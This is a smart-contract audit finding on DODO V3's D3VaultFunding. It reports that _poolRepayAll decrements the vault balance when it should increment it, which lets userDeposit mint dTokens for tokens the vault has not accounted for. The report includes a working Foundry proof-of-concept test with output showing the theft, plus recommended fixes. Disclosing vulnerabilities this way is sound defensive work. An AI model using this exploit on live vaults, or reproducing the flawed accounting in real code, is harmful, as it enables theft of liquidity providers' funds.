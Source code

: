 0xkaden

high

# Incorrect accounting in `D3VaultFunding._poolRepayAll` allows attacker to steal double the tokens repaid by the pool

## Summary
During `D3VaultFunding._poolRepayAll` execution, tokens are transferred from the pool to the vault, but contrary to intention, the accounted balance of tokens in the vault is decremented by the amount in which it should be incremented. This causes the accounted balance to be less than the actual balance by double the amount of tokens repaid. Unaccounted tokens can be stolen by calling `D3VaultFunding.userDeposit` for the corresponding token, which then applies the difference between it's last accounted balance and actual balance as a deposit on the users behalf, granting them dTokens which they can later withdraw for the underlying tokens.

## Vulnerability Detail
D3VaultFunding.userDeposit checks the actual token balance of the contract and the last accounted balance of the contract, and assumes those tokens were sent by the user, granting the user corresponding dTokens.

Anytime the actual balance of the contract is greater than the last accounted balance, it's possible to call this function and receive dTokens corresponding to the underlying tokens.

Since `D3VaultFunding._poolRepayAll` incorrectly accounts for the added tokens in the opposite directions, the amount of difference in actual and accounted tokens will be double the amount of tokens repaid during the function execution.

We can update `testPoolRepay` in `D3VaultFunding.t.sol` as follows to test the exploit:

```solidity
function testPoolRepay() public {
    vm.prank(user1);
    token1.approve(address(dodoApprove), type(uint256).max);

    mockUserQuota.setUserQuota(user1, address(token1), 1000 * 1e8);
    vm.prank(user1);
    d3Proxy.userDeposit(user1, address(token1), 500 * 1e8);

    token1.mint(address(d3MM), 100 * 1e8);
    poolBorrow(address(d3MM), address(token1), 100 * 1e8);

    // user1 deposit 500 into vault
    // pool has 100 as collateral, then borrow 100
    // utilization ratio = borrow / (cash + borrows) = 100 / 500 = 20%
    // borrowRate = 20% + 1 * 20% = 40%
    uint256 totalBorrows = d3Vault.getTotalBorrows(address(token1));
    assertEq(totalBorrows, 100 * 1e8);
    uint256 utilizationRatio = d3Vault.getUtilizationRatio(address(token1));
    assertEq(utilizationRatio, 20 * 1e16);
    uint256 borrowRate = d3Vault.getBorrowRate(address(token1));
    assertEq(borrowRate, 40 * 1e16);

    // pass one year
    vm.warp(31536000 + 1);

    // after one year, the compound interst is (1 + 0.4/31536000)^31536000 = 1.491824694
    uint256 compoundInterestRate = d3Vault.getCompoundInterestRate(borrowRate / 31536000, 31536000);
    assertEq(compoundInterestRate, 1479561541141168000);

    vm.startPrank(address(d3MM));
    uint256 newBorrows = d3Vault.getPoolBorrowAmount(address(d3MM), address(token1));
    assertEq(newBorrows, 14795615411);

    token1.approve(address(d3Vault), type(uint256).max);
    d3Vault.poolRepay(address(token1), 100 * 1e8);
    
    uint256 newBorrows2 = d3Vault.getPoolBorrowAmount(address(d3MM), address(token1));
    assertEq(newBorrows2, 4795615410);

    // case: repay more than borrows
    vm.expectRevert(bytes(Errors.AMOUNT_EXCEED));
    d3Vault.poolRepay(address(token1), 4795615410 + 1);

    d3Vault.poolRepayAll(address(token1));
    uint256 newBorrows3 = d3Vault.getPoolBorrowAmount(address(d3MM), address(token1));
    assertEq(newBorrows3, 0);

    vm.stopPrank();

    uint256 actualBalance = MockERC20(token1).balanceOf(address(d3Vault));
    (, uint256 expectedBalance,,,,,,,,,,) = d3Vault.assetInfo(address(token1));
    console.log("expectedBalance: %s", expectedBalance);
    console.log("actualBalance: %s", actualBalance);

    (address dToken1,,,,,,,,,,) = d3Vault.getAssetInfo(address(token1));

    uint256 dTokenBalanceBefore = D3Token(dToken1).balanceOf(user1);

    mockUserQuota.setUserQuota(user1, address(token1), 1000 * 1e18);
    vm.prank(user1);
    d3Vault.userDeposit(user1, address(token1));

    uint256 dTokenBalanceAfter = D3Token(dToken1).balanceOf(user1);

    console.log("dToken balance increase: %s", dTokenBalanceAfter - dTokenBalanceBefore);
}
```

We can see from the test output that the actual balance is significantly higher than the accounted balance and that the attacker successfully receives dTokens for calling `D3VaultFunding.userDeposit`:

```solidity
expectedBalance: 45204384590
actualBalance: 54795615410
dToken balance increase: 10838709607
```

## Impact

Anytime tokens are repaid using `D3VaultFunding._poolRepayAll`, double the amount of tokens repaid will be stolen, causing a deficit in the vault for which vault liquidity providers will suffer from a loss of funds.

## Code Snippet

[`D3VaultFunding._poolRepayAll`](https://github.com/sherlock-audit/2023-06-dodo/blob/main/new-dodo-v3/contracts/DODOV3MM/D3Vault/D3VaultFunding.sol#L117)
```solidity
function _poolRepayAll(address pool, address token) internal {
    accrueInterest(token);

    AssetInfo storage info = assetInfo[token];
    BorrowRecord storage record = info.borrowRecord[pool];
    uint256 amount = record.amount.div(record.interestIndex == 0 ? 1e18 : record.interestIndex).mul(info.borrowIndex);

    uint256 interests = amount;

    record.amount = 0;
    record.interestIndex = info.borrowIndex;
    info.totalBorrows = info.totalBorrows - amount;
    info.balance = info.balance - amount;
    IERC20(token).safeTransferFrom(pool, address(this), amount);

    emit PoolRepay(pool, token, amount, interests);
}
```

## Tool used

- Manual Review
- forge

## Recommendation
It is recommended that the balance be properly incremented rather than decremented in `D3VaultFunding._poolRepayAll`. Additionally, it's recommended that either:

- The flow of applying the difference in actual and accounted balance is removed in favour of the use of a `safeTransferFrom` instead or
- `D3VaultFunding.userDeposit` is only allowed to be called by a validated proxy